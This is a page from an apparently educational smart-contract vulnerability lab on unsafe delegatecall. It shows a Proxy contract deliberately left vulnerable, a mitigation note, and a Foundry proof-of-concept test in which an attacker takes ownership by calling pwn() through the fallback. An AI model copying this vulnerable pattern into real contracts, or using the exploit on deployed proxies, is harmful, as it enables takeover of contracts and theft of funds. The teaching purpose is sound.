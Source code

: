 # Unsafe Delegatecall
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**Name:** Unsafe Delegatecall Vulnerability

**Description:**  
The Proxy Contract Owner Manipulation Vulnerability is a flaw in the smart contract design that
allows an attacker to manipulate the owner of the Proxy contract, which is hardcoded as 0xdeadbeef.
The vulnerability arises due to the use of delegatecall in the fallback function of the Proxy contract.
delegatecall allows an attacker to invoke the pwn() function from the Delegate contract within the context of the Proxy contract, thereby changing the value of the owner state variable of the Proxy contract.
This allows a smart contract to dynamically load code from a different address at runtime.

**Scenario:**  
Proxy Contract is designed for helping users call logic contract
Proxy Contract's owner is hardcoded as 0xdeadbeef
Can you manipulate Proxy Contract's owner ?

**Mitigation:**  
To mitigate the Proxy Contract Owner Manipulation Vulnerability,
avoid using delegatecall unless it is explicitly required, and ensure that the delegatecall is used securely.
If the delegatecall is necessary for the contract's functionality, make sure to validate and
sanitize inputs to avoid unexpected behaviors.

**Proxy Contract:**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // vulnerable
        require(suc, "Delegatecall failed");
    }
}
```
**How to Test:**

forge test --contracts src/test/Delegatecall.sol-vvvv  
```
// Test function for a scenario where delegatecall is used.
function testDelegatecall() public {
    // Initialize a new Delegate contract, which is the "logic contract".
    DelegateContract = new Delegate(); 
    // Initialize a new Proxy contract, passing the address of the Delegate contract to its constructor. This is the "proxy contract".
    proxy = new Proxy(address(DelegateContract)); 

    // Log Alice's address.
    console.log("Alice address", alice);
    // Log the owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());

    // Log the start of the operation to change the owner of the Proxy contract.
    console.log("Change DelegationContract owner to Alice...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Call the pwn function of the Delegate contract through a delegatecall. This is the exploit.
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback() will delegatecall Delegate.pwn(), making Alice the owner of the Proxy contract.

    // Log the new owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());
    // Log the completion of the exploit.
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// The Delegate contract, which contains the code that can be called via delegatecall.
contract Delegate {
    // The owner of the contract.
    address public owner; // slot0

    // The pwn function, which sets the owner of the contract to the message sender.
    function pwn() public {
        owner = msg.sender;
    }
}
``` 
Red box: exploited successful, owner changed.
![Alt text](image-2.png)  
